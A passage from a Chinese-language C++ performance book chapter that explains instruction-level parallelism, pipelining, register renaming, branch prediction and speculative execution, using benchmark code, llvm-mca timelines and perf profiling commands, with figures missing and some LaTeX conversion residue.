图3.6 -第i次循环迭代结束时的处理器状态

这行简单的代码在转换成硬件指令后，就产生了所有这些操作(加上进入下一次循环迭代所需的操作):

``` {style="styleCXX"}
a1 += p1[i] + p2[i];
```

从效率的角度来看，我们只关注最后一步。CPU可以在一纳秒内把两个数字相加或相乘，这已经很好了，但还能做得更好吗？许多晶体管都致力于处理和执行指令，所以它们能处理更多的东西。让我们尝试对相同的值做两个操作，而不是一个:

\
**01_superscalar.C**

``` {style="styleCXX"}
void BM_add_multiply(benchmark::State& state) {
	… prepare data …
	for (auto _ : state) {
		unsigned long a1 = 0, a2 = 0;
		for (size_t i = 0; i < N; ++i) {
			a1 += p1[i] + p2[i];
			a2 += p1[i] * p2[i];
		}
		benchmark::DoNotOptimize(a1);
		benchmark::DoNotOptimize(a2);
		benchmark::ClobberMemory();
	}
	state.SetItemsProcessed(N*state.iterations());
}
```

如果加法和乘法都需要1纳秒，那么两者都需要多长时间？基准测试给了我们答案:

\
图3.7 - 一条指令和两条指令的基准测试

令人惊讶的是，这里一加一，居然等于一。我们可以在一次迭代中添加更多的指令:

``` {style="styleCXX"}
for (size_t i = 0; i < N; ++i) {
	a1 += p1[i] + p2[i];
	a2 += p1[i] * p2[i];
	a3 += p1[i] << 2;
	a4 += p2[i] – p1[i];
}
```

每次迭代的时间仍然相同(基准测量的精度范围内略有差异):

\
图3.8 - 每次迭代最多有四条指令循环的基准测试结果

我们认为处理器每次只执行一条指令的观点需要修正了:


\
图3.9 - 处理器在一次执行多个操作

只要操作数在寄存器中了，处理器就可以同时执行多个操作，这就是所谓的**指令级并行(ILP)**。当然，可以执行多少操作是有限制的，处理器能够执行整数的计算单元是有限的。尽管如此，通过在一次迭代中添加越来越多的指令，尝试将CPU推向极限是有指导意义的:

``` {style="styleCXX"}
for (size_t i = 0; i < N; ++i) {
	a1 += p1[i] + p2[i];
	a2 += p1[i] * p2[i];
	a3 += p1[i] << 2;
	a4 += p2[i] – p1[i];
	a5 += (p2[i] << 1)*p2[i];
	a6 += (p2[i] - 3)*p1[i];
}
```

当然，处理器可以执行的指令数量取决于CPU和指令，但与单个乘法运算相比，前面的循环速度明显出现了下降，至少在我使用的机器上是这样:

\
图3.10 - 每迭代8条指令的基准测试结果

就硬件利用率而言，可以看到最初的代码是多么低效。CPU显然可以在每次迭代中执行5到7个不同的操作，因此单个乘法甚至用不到其能力的四分之一。事实上，现代处理器的能力更令人吃惊。除了我们一直在试验的整数计算单元外，还有单独的浮点硬件，可以在双精度或浮点值上执行指令，以及同时执行MMX、SSE、AVX和其他专门指令的向量处理单元!

**3.3.1可视化的指令级并行**

目前，我们关于CPU并行执行多条指令能力的结论还是基于间接证据。如果能直接确认这就是事实，那就太好了。我们可以从**机器码分析器(MCA)**得到这样的确认，它是LLVM工具链的一部分。分析器将汇编代码作为输入，并获得关于指令如何执行、延迟和瓶颈是什么等信息。我们不打算在这里学习这个高级工具的功能(详细信息请参阅项目主页，<https://llvm.org/docs/CommandGuide/llvm-mca.html>)。现在，可以使用它来查看CPU如何执行操作的。

第一步是用分析器标记注释代码，选择要分析的代码段:

``` {style="styleCXX"}
#define MCA_START __asm volatile("# LLVM-MCA-BEGIN");
#define MCA_END __asm volatile("# LLVM-MCA-END");
…
for (size_t i = 0; i < N; ++i) {
MCA_START
	a1 += p1[i] + p2[i];
MCA_END
}
```

不必为分析器标记使用`#define`，但记住这些命令比记住精确的汇编语法要容易(可以保存`#define`在头文件中，并在需要时包含)。为什么只标记循环的主体，而不是整个循环呢？分析器实际上假设所选的代码片段在一个循环中运行，并将其重复若干次迭代(默认情况下为10次)。可以尝试为分析标记整个循环。但根据编译器的优化，这可能会使分析器感到困惑(这是一个强大的工具，但不容易使用)。

现在运行分析器:

\
图 3.11

我们不是把代码编译成可执行文件，而是用Intel语法生成汇编输出(`-S`)。输出输送到分析器，在分析器可以报告结果的许多方式中，我们选择了时间轴输出。时间轴视图显示每条指令在执行过程中的移动。我们分析两个代码片段，一个使用单个操作(加法或乘法)，另一个使用两个操作。以下是迭代的时间线，只有一次乘法(我们已经删除了时间线中间的所有行):

\
图 3.12

横轴是时的周期，该分析模拟运行选定的代码片段十次迭代，每条指令都由其在代码中的序号和迭代索引来标识，因此第一次迭代的第一条指令的索引为\[0,0\]，最后一条指令的索引为\[9,2\]。最后一条指令也是第十次迭代的第三条指令(每次迭代只有三条指令)。根据时间轴，整个过程需要55个周期。

从内存中读取`p1[i]`和`p2[i]`，对其进行操作:

``` {style="styleCXX"}
#define MCA_START __asm volatile("# LLVM-MCA-BEGIN");
#define MCA_END __asm volatile("# LLVM-MCA-END");
…
for (size_t i = 0; i < N; ++i) {
MCA_START
	a1 += p1[i] + p2[i];
	a2 += p1[i] * p2[i];
MCA_END
}
```

让我们看看每个迭代有两个操作的时间轴，一个加法和一个乘法:

\
图 3.13

现在执行的指令更多了，每次迭代有6条指令(最后一条指令有索引\[9,5\])。时间轴的持续时间只增加了一个周期。图3.12中，时间轴结束于第54周期，而在图3.13中，结束于第55周期。正如我们所怀疑的那样，处理器在同样长的时间内执行了两倍的指令。

可能还注意到，对于目前为止的所有基准测试，我们都增加了对相同输入值执行的操作的数量(添加、减去、乘以等)。就运行时而言，这些额外的操作是免费的(在一定程度上)，这是非常重要的经验：当在寄存器中有了一些值，在相同的值上加法计算可能不会降低任何性能，除非程序已经非常高效，并且将硬件压到了极限。遗憾的是，实验和结论的实用价值有限。所有计算在同一时间只执行少量输入，下一次迭代使用自己的输入，并且可以在相同的输入上找到一些更有用的计算，这种情况发生的频率有多高呢？也不是没有，但很少。扩展我们对CPU计算能力的简单演示将会遇到一个或多个难题，首先就是数据依赖。循环的顺序迭代通常不独立，可能每个迭代都需要一些来自前面迭代的数据。下一节将探讨这种情况。

###  3.4.数据依赖和流水线 {#数据依赖和流水线 .unnumbered}

对CPU能力的分析表明，只要操作数在寄存器中，处理器就可以同时执行多个操作。可以计算一个相当复杂的表达式，它只依赖于两个值，所需的时间与将这些值相加所需的时间一样多。不过，依赖于两个值的限定是非常严重的限制。现在考虑一个代码示例:

``` {style="styleCXX"}
for (size_t i = 0; i < N; ++i) {
	a1 += (p1[i] + p2[i])*(p1[i] - p2[i]);
}
```

所有代码都有相同的循环，只是实现更简单:`a1 += (p1[i] + p2[i]);`。同样，`p1[i]`只是`v1[i]`的别名，`p2`和`v2`也是如此。这个代码更复杂吗？处理器可以在一个周期内完成加法、减法和乘法运算，而表达式只依赖于两个值:`v1[i]`和`v2[i]`，而这个表达式不能在一个循环中求值。为了明确这一点，我们引入了两个临时变量，只是表达式求值过程中的中间结果:

``` {style="styleCXX"}
for (size_t i = 0; i < N; ++i) {
	s[i] = (p1[i] + p2[i]);
	d[i] = (p1[i] - p2[i]);
	a1[i] += s[i]*d[i];
}
```

如前所述，加减的结果`s[i]`和`d[i]`可以同时计算。最后一行不能执行，除非已知`s[i]`和`d[i]`的值。无论CPU一次可以做多少加法和乘法，但无法计算输入未知的操作的结果。而这里，CPU必须等待乘法的输入准备就绪。第i次迭代需要分两步执行:首先，必须加减(我们可以同时进行)；其次，必须将结果相乘。迭代现在需要两个周期而不是一个周期，因为计算的第二步依赖于第一步产生的数据:

{width="80%"}\
图3.14 - 循环计算中的数据依赖

尽管CPU有资源可以同时执行这三种操作，但由于计算中的数据依赖，无法使用这种能力。当然，这严重限制了我们使用处理器的效率。依赖关系在程序中很常见，硬件设计者想出了有效的解决方案。仔细地看图3.14，当计算`s[i]`和`d[i]`的值时，乘法硬件单元闲置了。不能在更早的时候开始计算乘积，但是可以同时将之前迭代的值`s[i-1]`和`d[i-1]`相乘。现在循环的两个迭代在时间上进行交错:

{width="80%"}\
图3.15 - 流水线:行对应于连续的迭代，同一行中的所有操作将同时执行

这种转换称为**流水线**：将复杂的表达式分解成多个阶段，并在流水线中执行。流水线中，前一个表达式的第2阶段和下一个表达式的第1阶段同时运行(更复杂的表达式将有更多的阶段，需要更深层的流水线)。只要有多次迭代，CPU就能像单次乘法那样快速地计算两阶段加减乘除的表达式:第一次迭代需要两个周期(先加减，再加减)，这无法避免。类似地，最后一次迭代将以乘法结束，同时不能做其他事情，在此期间的所有迭代都会同时执行三个操作。我们已经知道CPU可以同时进行加、减、乘运算，乘法属于循环内的不同迭代。

可以用一个简单的基准测试来进行确认。这个测试中，我们将每次循环迭代做一次乘法所花费的时间，与两步迭代所花费的时间进行比较:

\
图 3.16

正如预期，两个循环在本质上以相同的速度运行。我们可以得出结论，流水线完全消除了由数据依赖引起的性能损失。注意，流水线并没有消除数据依赖，每个循环迭代仍然必须在两个阶段执行，第二阶段取决于第一个阶段的结果。通过将不同阶段的计算交叉起来，流水线确实消除了这种依赖所致的低效率(至少在理想情况下是这样的，这也是我们目前所拥有的)。更直接的确认方式，可以从机器码分析器的结果中看到。同样，时间轴视图是最直观的:

\
图3.17 - 流水线的加减乘循环(上)和单乘法循环(下)的时间轴视图

如您所见，执行任一循环的10次迭代都需要56个周期。时间轴中的关键步骤是执行一条指令:`e`表示执行的开始，`E`表示执行的结束。流水线的效果在时间轴上清晰可见:循环的第一次迭代开始在第二个循环上执行，指令为\[0,0\]，第一次迭代的最后一条指令是在第18个周期上执行的(横轴是周期数)。第二次迭代开始在第4个周期执行，两个迭代之间有明显的重叠。这就是运行中的流水线，可以看到它是如何提高程序效率的。几乎每个周期，CPU都在使用它的计算单元执行来自多次迭代的指令。执行一个简单循环所需的周期与执行更复杂循环所需的周期相同，因此额外的机器操作不需要额外的时间。

本章不打算成为机器码分析器的手册，为了更好地理解时间轴和其他信息，读者们可以自己研究一下它的文档。不过，有一个问题必须指出来，循环的每次迭代不仅执行相同的C++代码，也有完全相同的机器码。因为流水线由硬件完成，而不是编译器，编译器只为迭代生成代码，以及跳转到下一个迭代所需的操作(或完成后退出循环)。处理器并行执行多条指令，可以在时间轴上看到。经过仔细观察，有些东西是没有意义的，例如：图3.17中的指令\[0,4\]，它在第6和12个周期期间执行，使用CPU的`rax`和`rsi`寄存器。在循环第8和9个周期期间执行的指令\[1,2\]:也使用相同的寄存器，写进寄存器`rsi`，同时其他指令也会对寄存器`rsi`进行操作。这是不可能出现的情况，虽然CPU可以使用多个独立的计算单元同时进行多个操作，但不能同时在同一个寄存器中存储两个不同的值。尽管隐藏得很好，但这个矛盾实际上是存在的。在图3.15中，假设编译器在所有迭代中只生成一个代码副本，用来存储`s[i]`的寄存器与需要读取的`s[i-1]`使用相同寄存器，并且这两个操作同时发生。

CPU的寄存器比目前看到的要多很多。问题是每次迭代的代码完全相同，包括寄存器名称，但是在每次迭代时，必须在寄存器中存储不同的值。看起来我们的假设和流水线上的实际上情况应该不可能发生，例如：下一个迭代必须等待上一个迭代停止，使用它所需要的寄存器。但真实情况并非这样，解决这个矛盾的方法使用**寄存器重命名**的硬件技术。在程序中看到的寄存器名，例如`rsi`，其实不是真正的寄存器名。可以由CPU映射到实际物理寄存器上，所以同名`rsi`可以映射到具有相同大小和功能的不同寄存器上。

当处理器在流水线中执行代码时，第一次迭代中指向`rsi`的指令实际上会使用一个内部寄存器，将其称为`rsi1`(这不是它的真实名称，但寄存器实际硬件的名称永远看不到，除非你是处理器设计师)。第二次迭代也有指向`rsi`的指令，但需要在那里存储一个不同的值，因此处理器将使用另一个寄存器`rsi2`。除非第一次迭代不再需要存储在`rsi`中的值，否则第三次迭代将不得不使用另一个寄存器，以此类推。寄存器册重命名由硬件完成，与编译器完成的寄存器分配不同(特别是，对分析代码工具不可见，如：LLVM-MCA或分析器)。最后，循环的多次迭代可以作为一个线性代码序列执行，就好像`s[i]`和`s[i+1]`使用了不同的寄存器一样。

将循环转换成线性代码称为**循环展开**，这是一种流行的编译器优化技术。但这次在硬件中完成，对于能够有效地处理数据依赖关系至关重要。编译器的角度更接近于源代码的编写方式。一次迭代，一组机器指令，通过跳转到迭代的代码片段的开头反复执行。处理器的角度更像是在时间轴上看到的，一个线性指令序列，每次迭代都有自己的代码副本，并且可以使用不同的寄存器。

我们还可以观察到另一个现象，CPU执行代码的顺序实际上与指令写入的顺序并不相同。这称为乱序执行，它对多线程程序有重大影响。

我们已经了解了处理器如何规避数据依赖对执行效率的限制，其解决数据依赖的方法是流水线。然而，故事并没有在这里结束。目前为止，设计的用于执行简单循环的方案缺貌似少了一些东西，因为循环必须在某个点结束。下一节，我们将看到事情会变得多么复杂，和相应的解决方案。

###  3.5.流水线和分支 {#流水线和分支 .unnumbered}

现在，我们对处理器高效使用的理解是:首先，CPU可以同时做多个操作，比如：同时做加法和乘法。不使用这种能力就是暴殄天物。此外，限制效率最大化能力的因素是，生成数据的速度，以供给这些操作进行计算。受到数据依赖关系的约束：如果一个操作计算了下一个操作用作输入的值，那么这两个操作必须顺序执行。处理这种依赖关系的方法是流水线操作，当执行循环或长的代码序列时，处理器将交叉计算(如循环迭代)，只要有可以独立执行的操作即可。

使用流水线也有前提条件。流水线的**前提条件**:为了从循环迭代中交叉执行代码，必须知道将执行什么代码。与上一节中了解到的信息进行比较，为了并行执行指令，必须预先知道输入值。现在，为了在流水线中运行指令，必须知道指令是什么。现在知道吗？因为运行的代码通常依赖于数据，每次遇到`if(条件)`语句时，要么执行`true`分支，要么执行`false`分支，但是在确定*条件*之前我们并不知道会执行到哪个分支。像数据依赖是指令级并行的障碍一样，条件执行或分支也是流水线的障碍。

随着流水线的中断，程序的效率会显著降低。我们可以使用基准测试来观察这种有害影响，例如不要写这样的代码:

``` {style="styleCXX"}
a1 += p1[i] + p2[i];
```

可以这样写:

``` {style="styleCXX"}
a1 += (p1[i]>p2[i]) ? p1[i] : p2[i];
```

现在我们将数据依赖重新引入到代码中了:

{width="40%"}\
图3.18 - 转移指令对流水线的影响

没有好方法将这段代码转换为要执行的线性指令流，并且需要处理不能避免的条件跳转。

实际情况要复杂一些，基准测试可能会出现性能的显著下降，也可能不会。原因是许多处理器都有某种**条件移动**功能，甚至是**条件添加**指令，编译器可以决定是否使用。如果发生这种情况，代码就会变得完全有序，没有跳转或分支，并且可以完美地流水线化:

\
图3.19 - cmove将分支流水线化

x86的CPU有一个条件移动指令`cmove`(虽然不是所有编译器都使用它来实现`?:`三元操作符)。具有AVX或AVX2指令集的处理器具有一组强大的掩码加法和乘法指令，这些指令也可以用于实现一些条件代码。这就是为什么在用分支对代码进行基准测试和优化时，需要检查生成的目标代码，并确认代码中确实包含分支，以及确定是否影响了性能。还有一些分析器工具可用，我们稍后介绍。

虽然分支和条件在大多数现实程序中无处不在，但当程序减少到只有几行代码时就会消失，原因是编译器可能使用了前面提到的条件指令。构造糟糕的基准测试的另一个原因是，编译器能够在编译时计算出条件的值，大多数编译器将完全优化代码，比如：`if (true)`或`if (false)`生成的代码中就没了这个语句，永远不会执行的代码也会消除。要了解分支对循环流水线的有害影响，必须构造一个编译器无法预测条件检查结果的测试，可以从实际使用的程序中提取了一个数据集。下一个演示，将使用随机值:

\
**02_branch.C**

``` {style="styleCXX"}
std::vector<unsigned long> v1(N), v2(N);
std::vector<int> c1(N);
for (size_t i = 0; i < N; ++i) {
	v1[i] = rand();
	v2[i] = rand();
	c1[i] = rand() & 1;
}
unsigned long* p1 = v1.data();
unsigned long* p2 = v2.data();
int* b1 = c1.data();
for (auto _ : state) {
	unsigned long a1 = 0, a2 = 0;
	for (size_t i = 0; i < N; ++i) {
		if (b1[i]) {
			a1 += p1[i];
		} else {
			a1 *= p2[i];
		}
	}
	benchmark::DoNotOptimize(a1);
	benchmark::DoNotOptimize(a2);
	benchmark::ClobberMemory();
}
```

同样，有两个输入数组`v1`和`v2`，以及一个随机值为0和1的控制数组`c1`(这里请避免使用`vector<bool>`，它不是字节数组，而是一个打包的位数组，因此访问它的开销会很高，而且我们现在对位操作指令的基准测试不感兴趣)。编译器无法预测下一个随机数是奇数还是偶数，因此不可能进行优化。此外，我们检查了生成的机器码，并确认编译器(x86上的Clang-11)使用一个简单的条件跳转实现了这个循环。为了有一个基线测试，我们将这个循环的性能与在每次迭代中进行无条件加法和乘法的循环进行比较:`a1 += p1[i]*p2[i]`。这个简单的循环在每次迭代中都做加法和乘法，由于流水线的存在，我们可以自由地进行加法运算，与下一次迭代的乘法运算同时执行。另一方面，条件分支不能自由的执行:

\
图 3.20

可以看到，条件代码大约比顺序代码慢5倍。证实了我们的预测，当下一条指令依赖于上一条指令的结果时，代码不能有效地流水化。

**3.5.1分支预测**

聪明的读者可能会指出，我们刚才描述的图像可能不完整，甚至不是真实的。让我们回到串行代码上，例如：我们在上一节中使用的循环代码:

``` {style="styleCXX"}
for (size_t i = 0; i < N; ++i) {
	a1 += v1[i] + v2[i]; // s[i] = v1[i] + v2[i]
}
```

处理器视角的循环体:

{width="80%"}\
图3.21 - 宽度为w的流水线中执行的循环

图3.21中，展示了三次交叉迭代，但可能有更多，流水线的总宽度是w，理想情况下，w足够大。每个周期中，CPU执行指令都可以同时执行(这样的峰值效率在实际中很少)。但请注意，在计算`p1[i] + p2[i]`的同时，可能不可能访问`v[i+2]`，因为不能保证循环有更多的两次迭代，所以`v[i+2]`可能不存在，贸然访问会导致未定义行为。前面代码中有一个隐藏条件:每次迭代中，必须检查i是否小于N，只有这样才能执行第i次迭代的指令。

因此，在图3.20中的比较是错误的，没有将流水线的顺序执行与不可预测的条件执行进行比较。实际上，这两个基准测试都有分支。

真相介于两者之间，我们了解条件执行的解决方案。流水线是数据依赖的解决方案，但分支戕害了它。分支存在时，保存流水线的方法是尝试将条件代码转换为顺序代码，如果事先知道分支要走哪条路，就可以进行转换。只需消除分支，然后继续执行下一条指令。当然，如果事先知道情况如何，就没必要这样写代码了。这里，考虑一下循环的终止条件。假设循环执行了很多次，可能条件`i < N`的计算结果为`true`(只有`1 / N`的几率会输掉这个赌局)。

处理器使用**分支预测**技术进行押注。分析代码中每一个分支的历史，并假定该行为在未来不会变。循环结束后，处理器很快就会知道，大多数情况下，必须进行下一个迭代。因此，正确的做法是对下一次迭代进行流水线化。当然，必须将实际的结果写入内存，直到计算条件确认迭代确实发生。处理器有一定数量的写缓冲区来保存这些未确认的结果，然后再将它们提交到内存中。

因此，只添加了一个元素的循环流水，看起来与图3.21所示完全一致。唯一的问题是，当第`i`次迭代完成之前开始执行迭代`i+2`时，处理器根据是否采用条件分支预测来下注的。这种确定代码存在的执行方式，称为**投机执行**。赌赢了，知道需要计算的时候，就可以获取结果。如果输了，必须放弃一些计算结果，以避免产生错误，例如：写入内存新内容，覆盖之前的内容，在大多数硬件平台上无法撤消，而计算结果和将其存储在寄存器中的过程完全可逆。当然，这会浪费我们的时间。

现在我们对流水线的工作原理有了更全面的了解。为了找到更多的指令并行执行，处理器要检查循环的下一个迭代，并开始与当前迭代同时执行。该代码包含一个条件分支，无法确切地知道将执行哪条指令，处理器根据过去检查的结果进行有根据的猜测，并继续推测执行该代码。若这个预测正确，则流水线操作可以和无条件代码一样好。若预测错误，处理器必须丢弃预测得到的结果，获取之前认为不需要的指令，并进行计算。这个事件称为**刷新流水**，是一个开销很大的事件。

现在对图3.20中的基准测试有了更好的理解，两个循环都有检查循环结束的条件。然而，预测几乎是完美的，刷新流水只在循环的末端发生。条件基准测试也有基于随机数的分支，`if(b1[i])`，其中`b1[i]`有50%的概率为真。处理器无法预测结果，并且一半的时间流水中断了(或者更糟，如果设法欺骗了CPU，会使其做出了错误的预测)。

可以用实验来验证我们的理解，只需要把随机条件改变成总是正确即可。唯一的问题是，我们必须以编译器无法理解的方式来处理。常用的方法是将条件数组进行初始化:

``` {style="styleCXX"}
c1[i] = rand() >= 0;
```

编译器不知道函数`rand()`总是返回非负的随机数，并且不会消除这种情况。CPU的分支预测器电路很快就会知道，如果`if(b1[i])`的值总是为真，那么就会推测地执行相应的代码。我们可以良好的预测分支和不准确预测分支的性能:

\
图 3.22

我们可以看到，良好预测分支的成本很低。

**3.5.2错误预测分支的分析**

已经看到错误预测分支会对代码性能产生多么严重的影响，现在的问题是，如何找到这样的代码来优化？当然，包含这段代码的函数所花费的时间比预期的要长，但是如何知道其原因是因预测错误的分支，还是其他原因才效率低下的呢？现在，我们已经了解了足够多的知识，从而可以*避免对性能的猜测*，且猜测分支预测器的有效性挺没趣的。通常，大多数分析器不仅可以分析执行时间，还可以分析决定效率的各种因素，包括分支预测失败。

本章中，将再次使用perf分析器。第一步，运行这个分析器来收集基准程序的总体性能指标:

commandshell= $perf stat ./benchmark
\end{tcblisting}

下面是只运行\texttt{BM\_branch\_not\_predicted}基准测试的性能结果(其他基准测试注释掉了):

%\hspace*{\fill} \\ %插入空行
\begin{center}
\includegraphics[width=0.9\textwidth]{content/1/chapter3/images/23.jpg}\\
图3.23 - 预测分支失败的基准测试数据
\end{center}

11\%的所有分支被预测错误(报告的最后一行)。请注意，这个数字是所有分支的累加，包括完全可预测的循环结束条件，因此11\%相当糟糕。我们应该将它与其他基准\texttt{BM\_branch\_predicted}进行比较，\texttt{BM\_branch\_predicted}和这个基准测试完全相同，只是条件总是为真:

%\hspace*{\fill} \\ %插入空行
\begin{center}
\includegraphics[width=0.9\textwidth]{content/1/chapter3/images/24.jpg}\\
图3.24 - 具有预测良好分支的基准测试概要
\end{center}

这一次，不到0.1\%的分支没有正确预测。

报告非常有用，可以用来强调或消除一些可能导致不良表现的原因。我们的案例中，可以得出结论，程序有一个或多个错误预测的分支。现在只需要找到是哪一个，分析器也可以帮忙查找。上一章中，使用分析器找出程序花费时间最多的地方，可以生成分支预测的逐行数据。我们只需要为分析器指定正确的性能计数器即可:

\begin{tcblisting}{commandshell={}}$ perf record -e
branches,branch-misses ./benchmark

我们的例子中，可以从`perf stat`的输出复制计数器的名称，因为它恰好是默认测量的计数器之一，完整的列表可以通过运行`perf - -list`获得。

分析器运行程序并收集指标，可以通过生成数据报告来查看:

报表分析器是交互式的，可以导航到每个函数的分支错误预测计数器:

\
图3.25 - 错误预测分支的详细报告

超过99%的错误预测分支发生在一个函数中。因为函数很小，所以查找相应的条件运算应该不难。在更大的函数中，我们必须逐行查看概要信息。

现代处理器的分支预测硬件相当复杂，例如：函数从两个不同的位置调用，当从第一个位置调用时，条件的计算结果为true，而从第二个位置调用时，相同的条件的计算结果为false，预测器会了解该模式，并根据函数调用正确地预测分支。类似地，预测器可以在数据中检测出相当复杂的模式，例如：可以初始化我们的随机条件变量，使值总是不可预测的，第一个是随机的，但是下一个是与第一个相反的，以此类推:

``` {style="styleCXX"}
for (size_t i = 0; i < N; ++i) {
	if (i == 0) c1[i] = rand() >= 0;
	else c1[i] = !c1[i - 1];
}
```

分析器确认该数据的分支预测率非常好:

\
图3.26 - "真-假"模式的分支预测率

我们已经准备好如何高效使用处理器了。但必须承认，这里忽略了一个很重要的问题。

###  3.6.投机执行 {#投机执行 .unnumbered}

现在了解流水线如何使CPU保持忙碌，以及通过推测预测条件分支的结果，执行预期的代码，在确定执行之前，可以让条件代码流水线化。图3.21描述了这种方法：通过假设循环的结束条件不会在当前的迭代之后发生，可以将下一次迭代的指令与当前迭代的指令交叉，这样就有更多的指令可以并行执行。

无论如何，预测都会出错，做的就是放弃一些不应该计算的结果，看起来像是从未计算过一样。这需要花费一些时间，当分支预测正确时，可以通过加快流水线的速度来补足这个时间。这就是要掩盖执行一些不必要操作的真实原因吗？

图3.21中，若第i次迭代是循环中最后一次迭代，那么下一次迭代不应该发生。当然，可以丢弃`a[i+1]`，不将其写入内存。但为了流水线操作，必须读取`v1[i+1]`，在检查迭代i是否是最后一次迭代之前访问了`v1[i+1]`。元素`v1[i+1]`在为数组分配的有效内存区域外，读取它会导致未定义行为。

在*投机执行*的无害标签后面还隐藏着危险:

``` {style="styleCXX"}
int f(int* p) {
	if (p) {
		return *p;
	} else {
		return 0;
	}
}
```

假设指针`p`很少为`NULL`，所以分支预测器知道`if(p)`语句常走真分支。当`p == NULL`时会发生什么？分支预测器会像往常一样推测地真正执行的分支，而后就是解引用空指针，接下来程序会崩溃。之后，我们会发现不应该走那个分支，但怎么修复崩溃呢？

事实上，像函数`f()`这样的代码很常见，并且不会受到随机崩溃的影响。我们可以得出这样的结论:要么预测执行并不存在，要么有一种方法可以避免崩溃。已经看到一些证据表明投机执行确实有发生，并且对于提高性能非常有效。那么，当尝试做一些不可能的事情时，比如解引用`NULL`指针，如何处理这种情况呢？对这种灾难的响应必须保持挂起，在分支条件评估之前，既不丢弃也不执行，处理器知道推测执行是否应该执行。这样，错误和其他无效的条件与普通的内存写入没有任何区别：只要动作指令仍具有推测性，那么撤消的动作就有可能发生。CPU必须有特殊的硬件电路(如缓冲区)来存储这些。最终，处理器确实在推测执行期间取消了空指针的引用，或读取了不存在的数组元素`v[i+1]`，然后假装它从未发生过。

已经理解了分支预测和投机执行，如何让处理器在数据和代码依赖关系产生不确定的情况下高效地运行。接下来，就可以将注意力转向程序优化了。

###  3.7.复杂条件的优化 {#复杂条件的优化 .unnumbered}

对于有许多条件语句(通常是`if()`语句)的程序，分支预测的有效性通常决定了整体性能。如果准确地预测分支，那么在分支上基本上没有任何开销。要是分支预测有一半是错误的，可能会比常规算术指令慢十倍或更多。

硬件分支预测是基于处理器执行的条件指令。因此，处理器对条件的理解可能与我们不同。下面的例子有助于我们理解这一点:

\
**02_branch.C**

``` {style="styleCXX"}
std::vector<unsigned long> v1(N), v2(N);
std::vector<int> c1(N), c2(N);
for (size_t i = 0; i < N; ++i) {
	v1[i] = rand();
	v2[i] = rand();
	c1[i] = rand() & 0x1;
	c2[i] = !c1[i];
}
unsigned long* p1 = v1.data();
unsigned long* p2 = v2.data();
int* b1 = c1.data();
int* b2 = c2.data();
for (auto _ : state) {
	unsigned long a1 = 0, a2 = 0;
	for (size_t i = 0; i < N; ++i) {
		if (b1[i] || b2[i]) { // !!!
			a1 += p1[i];
		} else {
			a1 *= p2[i];
		}
	}
	benchmark::DoNotOptimize(a1);
	benchmark::DoNotOptimize(a2);
	benchmark::ClobberMemory();
}
```

有趣的是`if (b1[i] || b2[i])`条件：计算总为`true`，因此可以期待处理器的完美预测。当然，事情没这么简单。从逻辑上，看起来这一个单独的条件，但对从CPU角度来说，是两个独立的条件分支：一半的情况下，在第一个分支，总体结果正确；另一半情况下，使它正确的是第二个分支。结果总的是正确的，但不可能预测哪个分支是正确的。

\
图3.27 - "假"分支的分支预测

分析器显示与真正随机分支一样差的分支预测率。性能基准测试结果更证实了我们的猜想:

\
图 3.28

*假*分支(不是真正的分支)的性能与真正随机的、不可预测的分支一样糟糕。

实际程序中，不应该出现这种不必要的条件语句。然而，常见的是复杂的条件表达式，其计算结果几乎相同。例如，可能有一个条件很少为`false`:

``` {style="styleCXX"}
if ((c1 && c2) || c3) {
	… true branch …
} else {
	… false branch …
}
```

几乎一半的情况`c3`都是`true`。当`c3`为`false`时，`c1`和`c2`通常都为`true`。总条件应该容易预测，并且采用真分支。从处理器的角度来看，它不是一个单独的条件，而是三个单独的条件跳跃。如果`c1`为`true`，那么必须检查`c2`。如果`c2`也为`true`，则执行跳转到真分支的第一个指令。如果`c1`或`c2`中的一个为`false`，则检查`c3`。如果为`true`，则执行再次跳转到`true`分支。

这个求值必须按特定顺序完成，C++标准(以及在此之前的C标准)规定，像&&和\|\|这样的逻辑操作可以短路。当整个表达式的结果已知，对表达式其余部分的计算就应该停止。这在条件语句具有有副作用时尤为重要:

``` {style="styleCXX"}
if (f1() || f2()) {
	… true branch …
} else {
	… false branch …
}
```

只有当`f1()`返回`false`时，才会调用函数`f2()`。前面的例子中，条件是简单的布尔变量`c1`、`c2`和`c3`。编译器已经知道没有任何副作用，并且计算整个表达式不会改变可观察行为。有些编译器会做这种优化。如果*假分支*基准测试使用这样的编译器，则会有良好的分支预测性能。但多数编译器并没有意识到这是一个问题(事实上，编译器没有办法知道整个表达式的计算结果常为`true`)。因此，这个优化需要开发手动完成。

假设开发者知道`if()`的两个分支中有一个经常使用，例如：`else`分支可以对应错误情况，或其他一些必须正确处理，但在正常操作下不应出现的异常情况。假设做了正确的事情，并使用分析器进行了验证，组成复杂布尔表达式的单个条件指令并没有得到很好的预测。这时，如何优化代码？

第一件事可能是将条件求值移出`if()`语句:

``` {style="styleCXX"}
const bool c = (c1 && c2) || c3;
if (c) { … } else { … }
```

这肯定不会奏效，原因有二。首先，条件表达式使用逻辑&&和\|\|操作，因此计算会短路，并且需要单独和不可预测的分支。其次，编译器可能会通过删除不必要的临时变量`c`来优化这段代码，因此最终的代码可能根本不会改变。

对条件变量数组进行循环时，可以使用类似的转换。下面这段代码很可能会受到分支预测的影响:

``` {style="styleCXX"}
for (size_i i = 0; i < N; ++i) {
	if ((c1[i] && c2[i]) || c3[i]) { … } else { … }
}
```

但是，如果预先计算所有的条件表达式，并存储在一个新数组中，大多数编译器都不会干掉这个临时数组:

``` {style="styleCXX"}
for (size_i i = 0; i < N; ++i) {
	c[i] = (c1[i] && c2[i]) || c3[i];
}
…
for (size_i i = 0; i < N; ++i) {
	if (c[i]) { … } else { … }
}
```

当然，用于初始化`c[i]`的布尔表达式，现在面临着分支预测错误的问题，因此只有当第二个循环执行的次数比初始化循环多很多时，这种转换才会有用。

通常有效的优化方法是用加法和乘法，或按位&和\|操作替换逻辑&&和\|\|操作。这样做之前，必须确定&&和\|\|操作的参数是布尔值(值为0或1)而不是整数。即使值2解释为真，表达式`2 & 1`的结果与`bool(2) & bool(1)`的结果也不相同。前者的计算结果为0(`false`)，而后者预期的正确答案为1(或`true`)。

我们可以在基准测试中比较这些优化代码的性能:

\
图 3.29

通过引入临时变量`BM_false_branch_temp`来优化*假分支*的尝试完全没有效果。因为临时向量的所有元素都为`true`，这就是分支预测器所知道的(`BM_false_branch_vtemp`)，所以临时向量给出了一个完全预测的分支的预期性能。用算术加法(+)或按位\|替换逻辑\|\|会产生类似的结果。

